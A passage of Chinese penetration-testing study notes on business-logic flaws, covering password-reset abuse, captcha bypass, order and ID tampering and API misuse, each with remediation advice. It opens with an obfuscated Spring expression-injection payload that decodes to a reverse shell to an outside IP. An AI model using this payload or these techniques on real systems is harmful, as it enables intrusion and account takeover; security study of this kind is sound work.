[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```


> log4j*

------

# 业务逻辑漏洞的产生和常见漏洞

- 漏洞的`产生`:
  - 由于`程序逻辑不严谨`或逻辑`太过复杂`,导致一些逻辑分支`不能正常处理`或`处理错误`,统称为业务逻辑漏洞
  - 简单理解:就是开发人员思维逻辑不够严谨造成的漏洞
- 关注`重点`:
  - 业务流程
  - http/https 请求分析
- `常见漏洞`:
  - 身份认证安全漏洞
  - 支付逻辑漏洞(数据篡改)
  - 任意密码找回漏洞
  - 验证码突破漏洞
  - 接口调用安全
  - 未授权访问漏洞
  - 权限绕过漏洞

------

### 登录模块---身份认证安全

- 漏洞产生:有些网站对身份认证模块`没有做好安全防护`,导致漏洞产生

- 绕过身份认证办法:

  - 暴力破解,撞库
  - Cookie & Session (重要)
  - 加密

- `暴力破解`

  - 测试方法:在`没有验证码`限制或者`一次验证码可以多次复用`

    - 爆破用户名:当输入的用户名`不存在时`,会显示`请输入正确的用户名`或者`用户名不存在`
    - 已知用户名:admin,密码进行`字典爆破`
    - 使用一个`常用密码`,比如123456`对大量用户`进行爆破

    

    修复方法:

    - `增加验证码`,登录失败的时候,`变换验证码`(验证码不能被工具识别)
    - `限制登录频率`,例如五分钟内登录失败次数超过10次锁定账户一小时
    - `二次验证`,可以添加手机验证码或邮箱验证码

- `撞库`

  - 测试方法:通过收集互联网`已泄露的用户和密码信息`,生成对应的字典,尝试`批量登录其它网站`后,得到一些可以登录的用户,很多用户在不同网站使用的是相同的账号密码,因此可以通过获取用户在A网站的账户从而尝试登录B网址.
  - 修复方法:养成用户`良好的上网行为习惯`,在不同的网站注册时尽量不使用相同的账号密码

- `Cookie和Session类`

  - Cookie:是指某些网站为了`辨别用户身份`,进行session跟踪而`存储在用户本地终端上的数据`(通常经过加密),我们俗称浏览器缓存
  - Session:在网络应用中,称为`会话控制`,Session对象存储`特定用户会话所需的属性及配置信息`.当用户在应用程序之间跳转时,存储在Session对象中的 变量不会丢失,而是在整个用户`会话中一直存在`下去.当用户请求来自应用程序的WEb页面时,如果该用户还没有会话,则WEB服务器会自动创建一个Session对象,与Cookie有一定的相同之处

- `Cookie伪造`:通过修改cookie中的`某个参数`来实现登录其它用户

- 测试方法:

  - 使用一个账号登录,找一个`可以证明身份的页面`,例如首页欢迎xxx或者是个人中心显示昵称的地方
  - 刷新该页面的拦截请求,`观察cookie中的字段和值`,例如userid=xxx,修改cookie中的值,把xxx改成admin
  - forward放行,页面显示admin信息,则存在此问题

- 修复方法:对客户端标识的用户信息,使用`session会话认证方式`,避免通过cookie去仿冒其它人的身份

- `Seesion会话固定攻击`:一种`诱骗`受害者人`使用攻击者指定的会话标识`的攻击手段,利用了服务器的session不变的机制

- 攻击步骤

  - 攻击者通过某种手段`重置`目标用户的`session id`,然后监听用户会话状态
  - 目标用户携带攻击者设定的session id 登录站点
  - 攻击者通过 session id 获得合法的会话

- 攻击者重置session id的方法:通过xss,嗅探等方法取得用户的session,修改数据包

- 修复方法:每次登录成功之后`重新生成session`,sessionid闲置过久时,进行重置session id

- `加密测试`

  - 概念:有些网站在`前端加密`,然后传到`后台`直接`和数据库里的值`做`对比`,这时抓包就知道了加密方式,然后做`暴力破解`

- 测试方法:

  - 对账号密码`登录`,`拦截请求`,查看传输信息是不是通过一些`加密方式对帐号和密码进行了加密`,如果有则存在此问题
  - 对于前端加密后的密码进行暴力破解测试时,可以在bp的intrusder模块中的`payload processing`中选择加密方式
  - 修复方法:把`加密对比`的方法放到`后台去执行`


------

### 数据篡改---业务一致性

- 手机号篡改:
  - 步骤:`抓包`修改手机密码,之后进行`越权判断`,进入其它人的页面进行操作
  - 修复:通过`session`机制`判断身份`,还需校验`手机号与登录者`身份`是否一致`
- 邮箱和用户名篡改:
  - 步骤:抓包修改用户名和邮箱为其他用户或邮箱
  - 修复:通过`session`机制`判断身份`,如需传输邮件,要`判断发件人与session一致`
- 订单ID篡改:
  - 步骤:注册一普通用户,修改遍历订单号,获取其他用户订单详情(平行越权)
  - 修复:查看订单是通过`session`判断用户身份,做好`平行权限控制`
- 商品编号篡改:
  - 步骤:提交订单时,抓包修改商品标号,导致`商品与价格不符`却`交易成功`
  - 修复:`金额不在客户端传入`,防止被篡改,如必要,则务必`检查交易金额与商品价格`或对`支付金额做签名校验`
- 用户id篡改:
  - 步骤:抓包查看用户的id,修改id(+-1),查看是否能查看其它用户id信息
  - 修复:通过session机制判断身份,如果必须用`userid参数`,要判断`与session是否一致`
- 金额数据篡改:
  - 步骤:在提交订单时进行抓包,修改支付的金额或折扣等相关数据
  - 修复:商品信息如`金额`,`折扣`等`原始数据校验`应来自于`服务器端`,不应该接受客户端传来的值
- 商品数量篡改:
  - 步骤:抓包修改商品数量等字段,将请求中商品数量`修改为负数或0`,查看能否以修改后的数量完成业务流程
  - 修复:产生`异常的交易`行为时直接`限制,阻断`
- 本地js数据篡改:
  - 步骤:部分应用程序通过`JavaScript处理用户提交`的请求,通过修改JavaScript脚本,测试修改后的数据是否影响到用户
  - 修复:服务器校验,跨平台支付调用接口,要做好`数据的完整性校验`,确保一致性
- 最大数限制突破:
  - 步骤:很多商品限制用户购买数量时,服务器仅在页面通过`js脚本限制`,没有在服务器端校验用户提交的数量,通过`抓包修改商品最大数限制`,将请求中的商品数量修改为`大于最大数量限制`,查看能否以修改后的数量完成业务流程
  - 修复:每次提交都对其对应各项信息做`强校验`

------


### 业务授权安全

- 越权漏洞分类
  - `水平`越权:指`相同权限`的`不同用户`可以`相互访问`
  - 举例:两个`不同的公司`A和B,通过修改请求,公司A可以任意修改B公司的员工,部门,考勤等信息
  - `垂直`越权:指使用`权限低`的用户`可以访问权限较高`的用户
  - 举例:`同一个公司`不同权限的管理员A和B,通过修改请求.管理员A可以修改不在他管辖范围内的员工,考勤,工资等
- 检测手段:
  - 查看所有敏感涉及到用户的操作是否有除了`UId之外的验证方式`,没有的话构造uid访问,可检查是否有漏洞
  - 如果有验证参数,尝试是否可以预知的或者可以猜测出来的
- 发生越权行为的修复方法:
  - 涉及用户信息的操作需要`验证用户身份`,比如查看各种用户信息的情况下,不能只根据uid去搜索,应该再次进行身份验证
  - 特别敏感的操作应该进行`二次操作`

------


# 任意密码找回的方法

- 用户凭证暴力破解
- 返回凭证
- 邮箱弱token
- 用户凭证有效性
- 重新绑定手机和邮箱
- 服务器验证
- 用户身份验证
- 找回步骤
- 本地验证
- token生成可控
- 注册覆盖
- session覆盖

------


### 用户凭证暴力破解

- 概念:常见的是找回密码的验证码为4位，并且`服务端没有加以限制`，我们可以通过`爆破出验证码`的方式来找回密码
- 步骤:
  - 验证码的位数:4 or 6，验证码有效时间:1min-15min
  - `验证码爆破`防护绕过
- 修复:
  - 增加验证码`复杂性`和`长度`
  - `限制请求修改次数`

------


### 返回凭证

- 返回凭证的三种形式
  - url返回凭证
  - 抓包返回凭证
  - 凭证在页面中
- 方法:
  - URL返回凭证:使用firefox的firebug`查看请求链接`,看链接中是否有验证码等密码找回凭证
  - 抓包直接返回:根据手机号找回密码后`抓包`，可以发现验证码直接显示 verifycode=xxxx，如果信息被加密，解密即可(其他信息同理)
  - 密码找回凭证在页面中:通过密保问题找回密码，`查看源码`，密保问题和答案就在源码中显示

------

### 邮箱弱token

- 获取邮箱弱token的方法:
  - Unix时间戳 + md5
  - 例如:通过邮箱找回密码，正常流程去邮箱查看重置密码链接，发现链接处有一串 md5 加密字符串。字符串解密，类似1491293277(10位)，可以判断为Unix时间戳。
  - `重置他人密码`只需利用他人邮箱发送`重置密码邮件`，在短时间内对`Unix时间戳`进行`暴力破解`，即可获得`重置密码的链接`
  - 用户名:`重置密码链接`直接`使用用户名`进行区别，改变用户名即可更改他人密码
  - 服务器时间:利用两个帐号`同时`点击`找回密码`，去邮箱査看找回密码的链接，发现两者的`随机 token 只差1-2`，而且可以猜测出为服务器时间。所以可以用`一个未知帐号`和`一个已知帐号`同时点击找回密码，稍微`遍历随机 token`，就可以`构造出未
    知帐号的密码找回链接`

------

### 用户凭证有效

- 通过用户凭证有效性修改密码:
  - 短信验证码:
    - 通过`他人手机号`找回密码，抓包，将他人手机号`替换成自己的手机号`，获取验证码，提交后修改密码
    - 通过`自己手机号`找回密码，获取验证码后抓包，将数据包中的`username改为他人用户名`，提交后成功修改他人密码
  - 邮箱 token
    - 通过邮箱找回密码，访问链接重置密码，输入新密码提交时抓包，虽然有token，但依然可以直接`修改用户ID`进而修改密码

------

### 重新绑定

- 手机绑定:
  - 给已知账户绑定手机，发现绑定手机的 URL 链接中有 uid 参数，`修改 uid参数为他人的`，即可实现`将他人的账户绑定上自己的手机`，之后`通过手机修改密码`
  - 修改`个人资料处抓包`，修改`userid为他人`，修改`手机号为自己的手机`，即可实现将`他人的账户绑定上自己的手机`，之后通过手机来修改密码
- 邮箱绑定:
  - 通过邮箱找回密码，URL链接中`修改用户ID为他人`，邮箱不变，之后通过链接可以`将他人账户绑定为自己的邮箱`，之后通过邮箱找回密码

------

### 服务器验证

- 最终提交步骤
- 使用邮箱找回密码，通过链接至修改密码页面，修改密码后提交、抓包，获得`Uid参数，修改为他人`，即可修改其他用户密码
- 服务器验证的验证逻辑为空(绕过认证)
  - 通过密码保护问题找回密码，抓包，`将密码保护问题删除，直接修改密码`，提交
  - 注:此处密保问题和新密码在同一页面

------

### 跳过验证

- 跳过验证步骤、找回方式、直接到设置新密码页面
  - 正常流程下，密码找回，`查看最后设置新密码页面的 URL`，记录下来。继续返回密码找回处，输入其他用户名，提交找回申请，直接访问上面记录下的修改密码页面，成功修改密码
  - 正常流程下，`修改密码页面抓包`，修改其中的`USERNAME COOKIE`为其他用户(有可能会经过编码，比如 base64)
    提交即可修改其他用户密码，如果抓包其中`有 step 参数`，可以修改这个参数`为最后一步(比如:5)`，提交便可`略过之前的步骤`

------

### 本地验证

- 在本地验证服务器的返回信息，确定是否执行密码重置，但是其返回信息是可控的内容，或者是可以获得的内容
  - 例如:通过手机找回密码，随便输入验证码，抓包，发送，拦截response包(Burpsuite 中可以选取 dointercept -->response to this request)，修改response包中的`返回码，返回包的内容`，继续发送，说不定就可以绕过验证，直接跳到修改密码的页面
- 发生短信等`验证信息`的动作`在本地执行`，可以通过`修改request包`进行控制
  - 例如:通过用户名找回密码，提交后会自动发送验证码到手机中，抓包，`修改手机为自己的手机`(如果其中有type 之类的参数，也可以尝试修改，有 emai 之类的参数，可以尝试删除内容)，发送修改后的包，`手机成功接收验证码`。输入验证码，继续发送，抓包，如果有type 之类的参数，可以继续尝试修改，发送就可以成功修
    改密码

------

### token生成可控

- 通过邮箱找回密码，正常流程下，抓包查看提交验证码后返回的数据，有加密字符串，这个加密字符串和后面重新设置新密码URL链接中的加密字符串一样，所以可以利用这个加密字符串
- 根据上面提交验证码的抓包，`修改User` 为其他用户(User有可能会使用md5加密)，发送，就可以`返回其他用户的加密字符串`
- 重新返回到找回密码首页，利用`其他用户找回`，点下一步，到输入验证码处，`直接修改URL链接，加入加密字符串`，可以直接`绕过验证码`重置密码

------

### 注册覆盖

- 举例:注册`重复的用户名`,例如admin,相当于修改了密码

- 中铁快运奇葩方式重置任意用户密码
- 在注册用户时，如果先输入用户名，在鼠标离开后会`校验用户名是否存在`，但是如果`最后输入用户名`，比如`输入一个已有的用户名`admin，在鼠标离开输入框并点击提交按钮后，虽然也会进行用户名是否存在的校验，但表单仍然提交上去了,这时候，我们会发现我们已经以admin的用户登录进来了，这时候用户的密码被改为我们之前填写的密码，但原用户的所有信息却没有改变，也就是说这时候我们获取了用户的信息，姓名、身份证、手机号等等。

------

### session覆盖

- 举例:同一浏览器，首先输入`自己的账户`进行邮箱密码找回，`进入邮箱查看链接`，接着输入`他人账户`，进行密码找回，`返回`刚刚`自己的邮箱点击链接`，由于`session覆盖`导致了，这个链接成为了`修改他人密码的链接，成功修改他人密码`
- 案例:聚美优品任意修改用户密码(非爆破)
- 说明:通过自己账号忘记密码发送邮箱修改密码地址，不要点开邮件。回到修改账号，将用户名改为要修改的账号，再发送一个邮件，回到自己的邮箱，将之前的邮件打开，输入密码即可。

------

# 验证码突破

- 暴力破解
- 时间,次数突破
- 回显测试
- 绕过测试


### 暴力破解验证码

- 有的验证码输入正确一次，在一定时间内不用再输入。
- 有的验证码输入正确一次，会在你session中设定一个值，告诉服务器你已经通过验证码验证了。
- 有的验证码因为逻辑问题只是一个摆设，正常的逻辑为先对比验证码是否正确，再检测账号密码是否正确，反过来了

- `修复建议`:
  - 提高验证码的`长度,复杂度`
  - `限制`错误登录`次数,有效时间`
- 案例:
- 中国人寿某省公司逻辑漏洞可导致所有员工姓名、手机等敏感信息
- 说明:通过爆破获取他的姓名信息，输入手机号和验证码以后，点击获取验证码。验证码直接返回了

------

### 时间,次数突破验证码

- 概念:重复提交携带验证码的数据包，查看返回包，判断次数
- 测试方法:埴写正确登录信息和验证码 ->抓取提交数据包->`复提交该数据包`->查看是否登录成功 ->登录成功则存在验证码重复使用问题
- 案例:
  - Step1.输入正确信息点击登录时抓包
  - Step2.抓包，通过修改imageField参数的大小来实现暴力提交，自设一个两位数数字字典作为payload
  - Step3.查看任意响应包是否登录成功，从结果来看，暴力重复提交的数据包均登录成功。

------

### 回显突破验证码

- 概念:验证码直接由`客户端生成`，在`回显中显示`，可通过浏览器工具直接查看
- 测试方法:
  - 1.在源码中显示。源代码审计，搜索源码中有无验证码
  - 2.在COOKIE中显示。抓包时分析COOKIE中是否含有验证码
- 案例:
- Step1.输入相关信息
  Step2.抓包，得到验证码
  Step3.输入验证码。验证通过

------

### 绕过验证码

- 漏洞成因:由于`逻辑设计缺陷`，可绕过验证，比如直接`删除COOKIE`或`验证码参数`可绕过、当验证不通过清空session时验证码参数值为空时绕过等。
- 测试方法:
  - 1.抓包，删除验证码字段，查看是否可以成功发送
  - 2.抓包，正常流程下，记录验证码后的数据包，替换目标包中内容，直接发送，查看是否可以直接绕过验证码
- 案例:
- Step1.输入正确账户信息和错误验证码，登录时抓包
  Step2.删除COOKIE
  Step3.客户端登陆成功

------

# 接口调用安全

- 接口也叫做API(Application Programming Interface)翻译为“应用程序编程接口”，是一些`预先定义的函数`

- 目的是`提供应用程序`与`开发人员`基于某软件或硬件得以访问一组例程的能力，而又`无需访问源码`，或理解内部工作机制的细节

- 接口调用的几种分类:

  - ### 重放攻击:

    - 在`短信、邮件调用业务`或`生成业务`数据环节中(类:短信验证码，邮件验证码，订单生成，评论提交等)，对其业务环节进行`调用(重放)`测试
    - 常见类型:短信轰炸、恶意注册
    - 修复:
      1.对评论提交等操作采用验证码机制，防止生成数据业务被恶意调用，
      2.短信/邮件`接口`，云要对接调用`频率进行控制`或者`上限限制`
      3.每一个订单(接口访问)使用唯一的token，提交一次后，`token失效`

  - ### 内容编辑

    - 例如:点击获取短信验证码，`抓包`，可以`修改短信内容`，实施下一步攻击
    - 修复:从客户端处获取手机号、邮箱等账号信息，要与`Session中的凭证进行核验`，验证通过后才允许进行业务操作。

  - ### 接口调用遍历漏洞

    - Web接口一般将常见的一些功能需求进行封装，通过传入不同的参数来获取对应的数据或者执行相应的功能，其中最常见的场景就是通过`接口传入id参数`，`返回对应id的信息`。此类接口如`请求合法性校验不严`，很容易出现`非授权访问`或者`越权访问`的问题。
    - 修复:
      - 1.在session中存储当前用户的凭证或者id，只有`传入凭证`或者id参数值与`session中的一致`才返回结果。
      - 2.一般涉及`身份校验的接口`，不要直接将敏感信息的`明文信息`在`客户端与服务端间传递`，可以将敏感信息在服务端关联到用户标
        识ID，在客户端保存用户标识 ID 并提交到服务端，服务端根据 ID 取出对应信息后进行校验;

  - ### 接口未授权访问/调用漏洞

    - 在正常的业务中，敏感功能的接口需要对访问者的`身份进行验证`，验证通过后才允许调用接口进行操作。`接口未做身份验证`或`身份校验不严`，可能导致`非授权访问`或`越权调用`，越权又分为`垂直越权`和`水平越权`
    - 修复:
      - 1.采用`Token校验`的方式，在ur|中添加一个Token参数，只有Token验证通过才返回接口数据目`Token使用一次后失效`
      - 2.在接口被调用时，服务器端对`会话状态进行验证`，如果已经登录，便返回接口数据;如未登录，则返回自定义的错误信息,
      - 3.`未授权访问接口`做`Session认证`，并对用户访问的每一个URL做身份鉴别，正确的校验用户id及token等:
      - 4.服务器端需`校验身份唯一性`，访问接口`来源验证`，不同身份只能查看修改删除添加自己的信息

  

 